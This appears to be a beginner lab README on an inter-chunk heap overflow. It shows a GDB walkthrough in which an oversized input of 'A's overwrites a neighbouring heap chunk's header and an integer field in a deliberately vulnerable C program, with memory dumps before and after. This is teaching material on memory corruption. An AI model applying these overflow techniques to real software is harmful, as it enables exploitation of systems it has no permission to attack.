








# Inter-chunk Heap overflow
A beginner-friendly guide to understanding, compiling, debugging, and exploiting the intra-chunk heap overflow vulnerability.

## Disclaimer
Do not use these techniques on systems you do not own or have explicit permission to test.

## Overview
This lab demonstrates an inter-chunk heap overflow — a memory corruption bug where user input spills from one heap chunk across the boundary into the next chunk's header and data.

Unlike intra-chunk overflow (which corrupts a field within the same object), inter-chunk overflow corrupts heap metadata, making it far more dangerous.

Goal: Corrupt the second chunk's header and some_number field so the program prints "Memory corrupted" instead of "Memory valid" — reaching a code path the programmer thought was impossible.

## The Vulnerable Code
File: C/Heap_overflow/inter_chunk.c

## Memory Layout

### Two Separate Chunks
```bash
Heap memory:
┌─────────────────────────────────────────────────────────────────────┐
│  Chunk 1 (some_string)          │  Chunk 2 (some_number)            │
│  ┌──────────┬───────────────┐   │  ┌──────────┬───────────────┐     │
│  │ header   │ user data     │   │  │ header   │ user data     │     │
│  │ (8 bytes)│ (8 bytes)     │   │  │ (8 bytes)│ (4 bytes)     │     │
│  └──────────┴───────────────┘   │  └──────────┴───────────────┘     │
└─────────────────────────────────────────────────────────────────────┘
```

## Compile
```bash
gcc inter_chunk.c -o inter_chunk
```

## Debugging Walkthrough

### Step 1: Start GDB
```bash
gdb inter_chunk
```

### Step 2: Disassemble main
```bash
disassemble main
```


### Step 3: Set the Breakpoint
Break right after the bl gets@plt:

```bash
break *0x000104c4
```

#### Your address may differ! Always read your own disassembly. The rule is:
Find bl <gets@plt> → break at the very next instruction.

### Step 4: Run the Program
```bash
run
```

### Step 5: Provide Input

Safe case — type 7 A's:
```bash
AAAAAAA
```



Attack case — type 16 A's (or more):
```bash
AAAAAAAAAAAAAAAA
```


### Step 6: Find the Heap Address

```bash
info proc mappings
```
Look for [heap]:


### Step 7: Inspect the Heap

```bash
x/32bx 0x21000
```
Safe case (7 A's) —  output:


```bash
0x21000:  0x00 0x00 0x00 0x00   0x11 0x00 0x00 0x00   ← chunk 1 header
0x21008:  0x41 0x41 0x41 0x41   0x41 0x41 0x41 0x00   ← "AAAAAAA\0"
0x21010:  0x00 0x00 0x00 0x00   0x11 0x00 0x00 0x00   ← chunk 2 header (intact)
0x21018:  0xd2 0x04 0x00 0x00   0x11 0x00 0x00 0x00   ← some_number = 1234
```

Attack case (16 A's) —  output:


```bash
0x21000:  0x00 0x00 0x00 0x00   0x11 0x00 0x00 0x00   ← chunk 1 header (intact)
0x21008:  0x41 0x41 0x41 0x41   0x41 0x41 0x41 0x41   ← "AAAAAAAA"
0x21010:  0x41 0x41 0x41 0x41   0x41 0x41 0x41 0x41   ← chunk 2 header DESTROYED 
0x21018:  0x00 0x04 0x00 0x00   0x00 0x00 0x00 0x00   ← some_number = 1024
```

### Step 8: Continue Execution
```bash
continue
```
Safe case output: Memory valid


Attack case output: Memory corrupted 


### References
Azeria Labs: Process Memory and Memory Corruption

Azeria Labs: ARM Assembly Basics

GEF (GDB Enhanced Features)

PEDA

pwndbg

Understanding the GLibc Heap Implementation
